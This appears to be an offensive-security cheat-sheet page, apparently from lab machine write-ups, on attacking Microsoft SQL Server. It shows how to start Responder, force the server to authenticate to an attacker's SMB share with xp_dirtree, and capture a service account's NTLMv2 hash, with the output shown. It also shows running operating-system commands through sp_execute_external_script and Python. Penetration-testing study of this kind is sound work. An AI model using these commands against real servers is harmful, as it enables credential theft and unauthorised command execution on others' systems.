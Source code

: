 ## Capture credentials using xp\_dirtree

Capture credentials using responder and xp\_dirtree: 

Start Responder: 

`root@kali# responder -I eth0` 

Issue the connect to load a file using xp\_dirtree from an SMB share \(that doesn’t exist\) on our host:

```text
SQL> xp_dirtree '\\10.10.14.14\a'; 
subdirectory    depth 
```

It doesn’t return anything, but in the responder window, I’ve captured the necessary information: 

```text
[SMBv2] NTLMv2-SSP Client   : 10.10.10.125 
[SMBv2] NTLMv2-SSP Username : QUERIER\mssql-svc 
[SMBv2] NTLMv2-SSP Hash     : mssql-svc::QUERIER:603386f497f
[*] Skipping previously captured hash for QUERIER\mssql-svc 
```

## Execue\_external\_script

We can use `sp_execute_external_scrip` to execute external command, 

**SQL Server 2017** now supports Python as an extensible script engine and we can use it to execute commands:

```text
SQL> EXEC sp_execute_external_script @language =N'Python', @script = N'import os; os.system("whoami");';
[*] INFO(COMPATIBILITY\POO_PUBLIC): Line 0: STDOUT message(s) from external script: 
compatibility\poo_public01

Express Edition will continue to be enforced.
```

